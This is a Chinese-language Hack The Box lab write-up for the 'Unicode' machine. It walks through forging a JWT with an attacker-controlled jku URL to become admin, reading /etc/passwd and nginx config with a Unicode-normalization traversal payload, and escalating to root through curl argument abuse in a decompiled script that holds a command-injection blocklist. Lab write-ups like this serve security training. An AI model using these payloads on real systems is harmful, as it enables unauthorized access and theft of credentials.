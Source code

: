 ```yaml
---
title: Unicode
date: 2022-02-06 21:12:59
tags: HackThebox
categories: 本地文件读取
---
```


## 信息收集

```bash
ports=$(nmap -p- --min-rate=1000 -T4 $1 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -sC -sV -oN result -p$ports $1
```
发现目标主机开放了ssh和web服务
![在这里插入图片描述](https://img-blog.csdnimg.cn/94531f843e904009983662305cf416f7.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们先访问一下web服务，发现是一个注册登录的页面，我们先注册一个用户登录看看页面都实现了哪些功能
![在这里插入图片描述](https://img-blog.csdnimg.cn/58b0c8b7d4da4868b8c55e31cf82b006.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

<!--more-->

登录成功后，发现存在一个文件上传页面，但是经过多次尝试，可以上传成功，可是并不能获取到上传的路径
![在这里插入图片描述](https://img-blog.csdnimg.cn/2d61973f094d405389ede27aedcc29ba.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_19,color_FFFFFF,t_70,g_se,x_16)

<!--more-->

当我打开查看网页cookie的时候，发现是JWT形式存储
![在这里插入图片描述](https://img-blog.csdnimg.cn/2e84937520c94758b02237094c1d8d3b.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_14,color_FFFFFF,t_70,g_se,x_16)
我们解密JWT后发现存在一个url路径，我们将其添加到hosts文件后进行访问并将jwks.json值保存下来
![在这里插入图片描述](https://img-blog.csdnimg.cn/66a49f96c74949d6a7124ee8f4f46431.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/1a8a683ed66c4c01ba30fbcf25dcd74e.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

## 漏洞利用
这个漏洞利用过程就比较复杂了，也比较考验渗透测试者的经验和脑洞。首先我们先在[https://mkjwk.org/](https://mkjwk.org/)这个网站上生成一个用于反弹到本机上的json值，我们将生成的n值对应的值替换掉原来保存的jwks.json的值

![在这里插入图片描述](https://img-blog.csdnimg.cn/2395e952d4c2421c90faec928391bfa5.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/7b089027eba64eba8226cb130c062b6d.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/5f4cf42fd9c54d4fabc001825bb29e5f.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
然后我们利用url重定向，先在本地开放一个微型的服务器，然后将用户变换为admin，生成一个新的JWT值用户登录admin用户界面，最后将新生成的公钥私钥值复制到生成页面上。
![在这里插入图片描述](https://img-blog.csdnimg.cn/7dd0979b020f42769ff74f57dd9f6d3b.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/f350f5bcd6314ccab112859ec77a8b67.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_17,color_FFFFFF,t_70,g_se,x_16)

![在这里插入图片描述](https://img-blog.csdnimg.cn/c18abc73505a467c8871475cfb0c06df.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_17,color_FFFFFF,t_70,g_se,x_16)
生成一个新的JWT值，替换掉用普通用户登录的JWT值，刷新页面

```bash
eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImprdSI6Imh0dHA6Ly9oYWNrbWVkaWEuaHRiL3N0YXRpYy8uLi9yZWRpcmVjdD91cmw9MTAuMTAuMTQuMjMvandrcy5qc29uIn0.eyJ1c2VyIjoiYWRtaW4ifQ.XdbEyn8OmY2soOmA_LCwfwPyW_CgWyMD0TyeVDQZ0KlVTLHTaiuhui961b8qXqc_Kbxu20Zt6FYaZV_JS9dP_RT19ecIdFMZaEkRup-y07r1KBoHMWiGTyg-Q9uc1auj3XMqjHSp6rT7eTEsVFv-qzjQEVPaRJfqYLoE6Hxt2aW2bvG1I3PoEm9oVnH3zXm_ngM46AC_4Iy3ZMXduufwEeJY8OLkQPlZgQ0s3tuQjDZqRjFMlYBz0sGkgw_Oud-40hvrylaQmJdmsulrbED9BLiuhCvbFrX_Q-tXlxkxHWc5Q52co1qf6A0P-2N_zeRjhw0M1RB3T7G2GvTKZGFJzQ
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/f798ff356a704ad5978651ab61558088.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
点击current month页面是，发现是一个本地文件读取漏洞，并且一般的读取姿势还不能读取成功
![在这里插入图片描述](https://img-blog.csdnimg.cn/2a90ae4d3b0f4fabb4568a2c7e9543b3.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们尝试使用`U+FE30`的编码形式进行绕过，经过反复尝试成功读取到`/etc/passwd`文件的内容，这是有关文件读取编码绕过的具体内容[https://link.zhihu.com/?target=https%3A//lazarv.com/posts/unicode-normalization-vulnerabilities/](https://link.zhihu.com/?target=https://lazarv.com/posts/unicode-normalization-vulnerabilities/)

```bash
http://10.10.11.126/display/?page=%EF%B8%B0/%EF%B8%B0/%EF%B8%B0/%EF%B8%B0/%EF%B8%B0/etc/passwd
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/37a1d401639748fa8d5f7d6a6d032e60.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们进行信息收集时发现，目标主机上运行着nginx服务器，我们可以尝试读取nginx相关的用户配置信息。读取到的路径是`/home/code/coder`，并且存在密码信息文件`db.yaml`

```bash
http://10.10.11.126/display/?page=%EF%B8%B0/%EF%B8%B0/%EF%B8%B0/%EF%B8%B0/%EF%B8%B0/etc/nginx/sites-available/default
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/d0b8d96c2fff4e1591dcb2463dd98829.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
成功读取到code用户信息和相关密码信息内容
![在这里插入图片描述](https://img-blog.csdnimg.cn/c7333db6968b416cacbab568dcebd320.png)
从收集的信息上看，code用户是可以使用ssh连接bash终端的
![在这里插入图片描述](https://img-blog.csdnimg.cn/5909c1cd13dc4df6a51189f4a7ea807f.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/02f18e5957bc45f5911b267d955b6828.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
## 提权到ROOT
发现可以以root身份运行treport程序，我们可以尝试运行分析其功能
![在这里插入图片描述](https://img-blog.csdnimg.cn/0ccb282c259d4e9ea27ec430d04b4b95.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
发现是对分析报告的生成，并且文件的类型是python，在第三个选择上调用了curl命令进行报告下载
![在这里插入图片描述](https://img-blog.csdnimg.cn/f6e677204f80458db27023145b872e38.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
突破点就是在第三个选项上，但是我们不知道他具体程序的源码是怎么实现的，所以需要对这个python文件进行逆向源码还原。这里使用到的工具有`pyinstxtractor`和`pycdc`，并且将treport文件通过scp的形式下载下来
![在这里插入图片描述](https://img-blog.csdnimg.cn/f414b554fcc14d4c9351cf7763f734ba.png)
脚本运行成功后会产生一个新的文件夹
![在这里插入图片描述](https://img-blog.csdnimg.cn/9ed3cfb08b8e4fd092e3fcbc27ebfe60.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
文件夹内大部分文件都是pyc文件格式
![在这里插入图片描述](https://img-blog.csdnimg.cn/121f6a8d3c3849f7af0cee4353e1848e.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
那么我们就要用到c和c++的转换工具了
![在这里插入图片描述](https://img-blog.csdnimg.cn/e895ce0488c147ffb5fd266f9be93cc5.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/a41b4ae29bb949d99332f17c8c92b5b7.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
通过审计源代码可以得知，在下载文件部分使用了黑名单进行过滤，但是唯独没有过滤大括号，因此我们可以使用大括号进行文件读取，我们可以使用curl的--config参数对指定文件内容进行读取

```bash
./pycdc ../treport_extracted/treport.pyc
```

```python
# Source Generated with Decompyle++
# File: treport.pyc (Python 3.9)

Unsupported opcode: <255>
import os
import sys
from datetime import datetime
import re

class threat_report:
    
    def create(self):
Unsupported opcode: <255>
        file_name = input('Enter the filename:')
        content = input('Enter the report:')
        if '../' in file_name:
            print('NOT ALLOWED')
            sys.exit(0)
        file_path = '/root/reports/' + file_name
    # WARNING: Decompyle incomplete

    
    def list_files(self):
        file_list = os.listdir('/root/reports/')
        files_in_dir = ' '.join((lambda .0: [ str(elem) for elem in .0 ])(file_list))
        print('ALL THE THREAT REPORTS:')
        print(files_in_dir)

    
    def read_file(self):
Unsupported opcode: <255>
        file_name = input('\nEnter the filename:')
        if '../' in file_name:
            print('NOT ALLOWED')
            sys.exit(0)
        contents = ''
        file_name = '/root/reports/' + file_name
    # WARNING: Decompyle incomplete

    
    def download(self):
        now = datetime.now()
        current_time = now.strftime('%H_%M_%S')
        command_injection_list = [
            '$',
            '`',
            ';',
            '&',
            '|',
            '||',
            '>',
            '<',
            '?',
            "'",
            '@',
            '#',
            '$',
            '%',
            '^',
            '(',
            ')']
        ip = input('Enter the IP/file_name:')
        res = bool(re.search('\\s', ip))
        if res:
            print('INVALID IP')
            sys.exit(0)
        if 'file' in ip and 'gopher' in ip or 'mysql' in ip:
            print('INVALID URL')
            sys.exit(0)
        cmd = '/bin/bash -c "curl ' + ip + ' -o /root/reports/threat_report_' + current_time + '"'
        os.system(cmd)


# WARNING: Decompyle incomplete
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/e74f33ca978844968ee75dd4938f38b9.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
